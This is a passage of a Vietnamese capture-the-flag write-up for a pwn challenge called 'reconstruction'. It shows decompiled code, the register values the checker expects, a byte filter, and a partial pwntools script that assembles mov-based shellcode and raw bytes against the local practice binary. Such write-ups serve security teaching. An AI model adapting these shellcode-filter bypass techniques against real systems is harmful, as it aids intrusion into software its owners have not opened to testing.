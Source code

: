 ```c
    return v4;
  printf("Unknown register: %s\n", a1);
  return v9;
}
```

- đây sẽ là những giá trị trong ```value```  : 

```c
0x1337C0DE , 0xDEADBEEF  , 0XDEAD1337 ,
0X1337CAFE , 0XBEEFCODE , 0X13371337 , 0X1337DEAD
```

- vậy ta có thể hình dung bài này như sau : 

ta sẽ được nhập 1 shellcode và filter các bytes , nếu các byte thõa thì tiếp tục check các giá trị r8,r9,r10 tương ứng có bằng với các giá trị trong value không

- cách đơn giản nhất là dùng lệnh ```mov``` để gán gía trị cho nó , tuy nhiên ta sẽ check xem nó có bị filter không bằng web này : 

https://defuse.ca/online-x86-assembler.htm

- các byte tương ứng như sau 

![image](https://hackmd.io/_uploads/SknoLkpvkx.png)

- các byte được cho phép , ta thấy nó khớp với lệnh ở trên 

```c
 0x49, 0xC7, 0xB9, 0xC0, 0xDE, 0x37, 0x13, 0xC4, 0xC6, 0xEF, 
  0xBE, 0xAD, 0xCA, 0xFE, 0xC3, 0x00, 0xBA, 0xBD,
```

- may mắn là các byte này không filter opcode ```mov``` nên ta dễ dàng :v



```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./reconstruction_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

context.arch = 'amd64'
p = process()
gdb.attach(p,gdbscript='''
           brva 0x00000000000019D9
           ''')

input()
shellcode = asm('''
        mov r8,0x1337c0de
        mov r9,0xDEADBEEF
        mov r10,0xdead1337
        mov r12,0x1337cafe
        mov r13,0xBEEFC0DE
        mov r14,0x13371337
        mov r15,0x1337dead
        ret
                ''')
p.sendlineafter(b': ',b'fix')
test = b"\x49\xC7\xC0\xDE\xC0\x37\x13\x49\xB9\xEF\xBE\xAD\xDE\x00\x00\x00\x00\x49\xBA\x37\x13\xAD\xDE\x00\x00\x00\x00\x49\xC7\xC4\xFE\xCA\x37\x13\x49\xBD\xDE\xC0\xEF\xBE\x00\x00\x00\x00\x49\xC7\xC6\x37\x13\x37\x13\x49\xC7\xC7\xAD\xDE\x37\x13\xC3"
```